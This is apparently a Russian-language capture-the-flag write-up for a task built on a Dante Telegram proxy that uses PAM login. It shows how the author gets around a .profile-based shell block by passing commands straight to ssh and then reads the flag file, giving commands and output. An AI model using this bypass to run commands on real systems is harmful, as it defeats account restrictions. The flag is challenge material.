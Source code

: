 # Telegram: Write-up

Перед нами Telegram-прокси Dante (из условия таска). Посмотрим, как работает *авторизация* в этом прокси.

Оказывается, она работает через PAM — т.е. в прокси можно авторизоваться под тем же логином, что и в линухе 
на хост-машине.

Раз это машина с флагами, значит при наличии шелла можно их найти. Зайдем под юзером `proxy`:

```bash
$ ssh proxy@socks.ctf.upml.tech
proxy@socks.ctf.upml.tech's password:
...
This account is currently not available. See you later.
Connection to socks.ctf.upml.tech closed.
```

Заметим две вещи:

1. Нам выводится весь MotD — значит, шелл запустили, а потом вышли из него
2. Нам выводится сообщение `This account is currently not available. See you later.`

Если бы у юзера был заблокирован шелл (например, в `/usr/sbin/nologin`), нам бы просто вывелось
`This account is currently not available.`

Это значит, что сообщение выводится при запуске шелла, к примеру, через `.bashrc` или `.profile`, 
а дефолтный шелл всё же `sh` или `bash`.

Пробуем что-то другое: 

```bash
$ sftp proxy@socks.ctf.upml.tech
proxy@socks.ctf.upml.tech's password:
subsystem request failed on channel 0
Couldn't read packet: Connection reset by peer
```

Не работает... Остался ещё один вариант — можно передавать произвольные команды при запуске `ssh`, чтобы 
не входить в интерактивный режим (удобно для автоматического запуска команд). Работает это так:

```bash
$ ssh proxy@socks.ctf.upml.tech ls -la
proxy@socks.ctf.upml.tech's password:
total 16
drwxr-xr-x 2 root root 4096 Jul 30 20:04 .
drwxr-xr-x 4 root root 4096 Jul 30 19:14 ..
-rwxr-xr-x 1 root root   70 Jul 30 19:17 .profile
-rw-r--r-- 1 root root   57 Jul 30 19:20 super_secret_file.txt
```

Работает! Теперь можно вывести файл точно так же:

```bash
$ssh proxy@socks.ctf.upml.tech cat super_secret_file.txt
proxy@socks.ctf.upml.tech's password:
TOTALLY SECRET FLAGS!!!!

uctf_lock_proxy_users_properly
```

Флаг: **uctf_lock_proxy_users_properly**
